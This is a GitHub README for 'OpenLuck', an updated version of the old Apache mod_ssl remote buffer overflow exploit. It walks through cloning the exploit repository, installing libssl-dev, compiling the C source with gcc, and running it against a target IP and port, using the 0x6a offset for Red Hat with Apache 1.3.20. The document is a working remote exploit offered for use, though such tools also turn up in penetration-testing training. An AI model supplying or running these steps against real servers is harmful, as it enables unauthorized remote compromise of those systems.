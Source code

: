 # Apache_mod_ssl-_2.8.7-_Remote-Buffer-Overflow
# OpenLuck
Original is OpenFu*&%$#, I change for something more elegant

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenFuck.c
```
git clone https://github.com/heltonWernik/OpenFuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenFuck OpenFuck.c -lcrypto
````

4. Running the Exploit
```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

